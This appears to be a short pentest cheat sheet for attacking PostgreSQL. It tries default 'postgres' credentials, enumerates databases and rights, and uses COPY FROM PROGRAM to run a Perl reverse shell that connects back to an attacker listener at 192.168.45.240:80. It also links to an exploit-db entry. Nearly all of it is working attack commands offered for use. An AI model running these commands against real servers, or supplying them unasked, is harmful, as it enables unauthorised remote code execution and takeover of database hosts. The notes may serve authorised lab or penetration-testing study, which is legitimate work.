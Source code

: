 # Postgres

- check if you can default login

```bash
psql -h 192.168.198.60 -p 5432 -U postgres #password can be postgres

# List database
\list

# list user rights
/du

# if superuser, you can get a revshell

postgres=# DROP TABLE IF EXISTS cmd_exec;
postgres=# CREATE TABLE cmd_exec(cmd_output text);

# open a listener to catch the below command


COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.240:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

```
Link here for the lazy way https://www.exploit-db.com/exploits/50847